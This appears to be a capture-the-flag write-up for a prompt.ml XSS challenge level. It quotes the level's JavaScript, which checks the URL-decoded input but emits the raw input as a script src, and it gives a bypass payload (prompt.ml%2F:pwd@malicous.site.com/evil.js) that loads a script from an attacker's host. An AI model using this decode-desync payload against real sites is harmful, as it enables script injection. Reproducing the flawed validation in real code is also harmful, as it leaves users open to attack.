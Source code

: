 This level has a design flaw.

The level code:
```javascript
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}
```

The regex checks if our input starts with "prompt.ml" domain, if we want to bypass a check like this, we can probably exploit the syntax of http basic auth `http://username:password@site.com`.

And the code tests the input with URL decode funtion, but implements the input with the original value. This is where the flaw exists. There will be a potential desync of the sanitizer and the actual output.

To exploit this, we need to know what the regex does first.
Let's ignore the http part and take a look at the domain, it requires the input to be something like:
`https://prompt.ml/anything...`
Notice that the domain is followed by a slash, so we can't exploit the basic auth technique directly.
But remember that our input is actually URL decoded before the check, we can actually enter this as our input:
```
https://prompt.ml%2F:pwd@malicous.site.com/evil.js
```
Since the `%2F` will be decode to " / ", this payload can bypass the regex check and let the user link a script to a evil website!

